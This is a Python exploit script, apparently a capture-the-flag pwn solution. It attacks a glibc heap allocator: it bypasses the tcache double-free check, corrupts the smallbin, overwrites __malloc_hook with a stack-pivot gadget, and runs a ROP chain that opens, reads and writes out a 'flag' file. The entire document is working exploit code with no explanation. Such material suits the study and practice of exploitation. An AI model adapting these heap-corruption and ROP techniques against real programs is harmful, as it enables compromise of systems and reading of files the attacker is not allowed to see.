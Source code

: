 ```python
create(1, 'P' * 0x217) # create a padding
create(0, '4' * 0x1f0) # last tcache chunk

delete(0) # put it to tcache
edit(0, p64(0) + p64(0))
# rewrite fd and key to bypass double free check

delete(0) # to topchunk
delete(1) # to topchunk

# now 0x200 -> 7, top element is behind topchunk
# now 0x220 -> 7

create(0, '5' * 0x220)
create(0, '4' * 0x1f0) # chunk_head == top at 0x200
create(1, '5' * 0x200)

delete(0)
create(1, '5' * 0x200) # put to smallbin

edit(0, p64(libc_addr+0x1e4e90) + p64(heap_addr+0x130))
delete(1)
edit(1, p64(0)*2 + p64(heap_addr+0x130))

create(0, 'C' * 0x1f0)
create(0, 'A' * 0x10 + p64(libc_addr + \
	e.symbols["__malloc_hook"]).ljust(0x1e0, '\x00'))

# add rsp,48; ret
punch(p64(libc_addr + 0x8cfd6) + "flag\x00")

pop_rdi = p64(libc_addr + 0x26542)
pop_rsi = p64(libc_addr + 0x26f9e)
pop_rdx = p64(libc_addr + 0x12bda6)
pop_rcx = p64(libc_addr + 0x10b31e)

rop = pop_rdi + p64(2)
rop += pop_rsi
rop += p64(libc_addr + e.symbols["__malloc_hook"] + 8)
rop += pop_rdx + p64(0)
rop += p64(libc_addr + e.symbols["syscall"])
rop += pop_rdi + p64(3)
rop += pop_rsi + p64(heap_addr + 0x2000)
rop += pop_rdx + p64(0x100)
rop += p64(libc_addr + e.symbols["read"])
rop += pop_rdi + p64(1)
rop += pop_rsi + p64(heap_addr + 0x2000)
rop += pop_rdx + p64(0x100)
rop += p64(libc_addr + e.symbols["write"])
rop += p64(0)

create(0, rop)

sh.interactive()
```

